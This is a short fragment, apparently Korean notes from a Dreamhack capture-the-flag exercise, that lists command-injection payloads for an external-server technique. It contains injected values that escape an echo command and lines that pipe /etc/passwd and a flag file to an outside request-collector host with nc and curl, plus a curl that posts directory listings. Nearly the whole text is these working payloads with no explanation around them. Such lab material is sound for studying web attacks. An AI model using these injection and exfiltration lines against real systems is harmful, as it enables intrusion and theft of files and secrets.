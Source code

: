 ### 외부 서버이용
	cat /etc/passwd | nc 127.0.0.1 8000
	echo "{cat_name}" >> /tmp/cat_db
	cool_cat_name"; cat ./flag.txt | nc https://oqsuldv.request.dreamhack.games 80;"
	curl -v 'https://oqsuldv.request.dreamhack.games'
	curl https://oqsuldv.request.dreamhack.games/ -d "$(ls -al)"
	cool_cat_name";curl https://oqsuldv.request.dreamhack.games/ -d "$( cat ./flag.txt)";"

